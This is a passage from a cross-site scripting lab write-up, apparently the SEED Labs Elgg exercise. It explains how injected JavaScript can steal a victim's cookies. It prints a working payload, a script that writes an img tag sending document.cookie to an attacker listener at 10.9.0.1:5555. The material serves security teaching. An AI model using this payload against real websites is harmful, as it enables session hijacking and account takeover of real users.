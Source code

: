 
Once you updated the code and save it you will be able to see the cookies on the popup page of browser

![alt text](images/Task3.3_samy_cookies_showing_3.png)



### 3.4 Task 3: Stealing Cookies from the Victim’s Machine

In the previous task, the malicious JavaScript code written by the attacker can print out the user’s cookies,
but only the user can see the cookies, not the attacker. In this task, the attacker wants the JavaScript code to
send the cookies to himself/herself. To achieve this, the malicious JavaScript code needs to send an HTTP
request to the attacker, with the cookies appended to the request.
    
We can do this by having the malicious JavaScript insert an _<img>_ tag with its src attribute set to the
attacker’s machine. When the JavaScript inserts the img tag, the browser tries to load the image from the
URL in the _src_ field; this results in an HTTP GET request sent to the attacker’s machine. The JavaScript
given below sends the cookies to the port 5555 of the attacker’s machine (with IP address _10.9.0.1_),
where the attacker has a TCP server listening to the same port.
```
<script>document.write(’<img src=http://10.9.0.1:5555?c=’
+ escape(document.cookie) + ’ >’);
</script>
```
